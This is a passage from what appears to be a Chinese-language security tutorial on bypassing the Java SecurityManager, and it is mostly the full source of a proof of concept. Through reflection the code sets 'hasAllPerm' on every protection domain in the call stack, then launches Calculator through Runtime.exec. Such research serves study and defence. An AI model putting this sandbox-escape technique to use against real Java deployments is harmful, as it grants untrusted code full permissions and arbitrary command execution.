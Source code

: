   ```java
              field.set(pd, true);
          }
      }
  }
  ```

- 全部代码如下

  ```
  package evil;
  
  import java.lang.reflect.Field;
  import java.lang.reflect.Method;
  import java.security.ProtectionDomain;
  
  public class test {
      public static void main(String[] args) throws Exception{
          System.out.println("[*] Testing Bypass by Reflection");
          setHasAllPerm();
          Runtime.getRuntime().exec("open -a Calculator");
  //        setSecurityByReflection();
      }
  
      public static void setHasAllPerm() throws Exception{
          StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
          for (StackTraceElement stackTraceElement: stackTraceElements){
              Class clz = Class.forName(stackTraceElement.getClassName());
              // 反射调用getProtectionDomain0方法
              Method method = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
              method.setAccessible(true);
              java.security.ProtectionDomain pd = (ProtectionDomain) method.invoke(clz);
  
              if (pd != null){
                  Field field = pd.getClass().getDeclaredField("hasAllPerm");
                  field.setAccessible(true);
                  field.set(pd, true);
              }
          }
      }
  }
  ```

  ![image-20231108194758578](images/20.png)
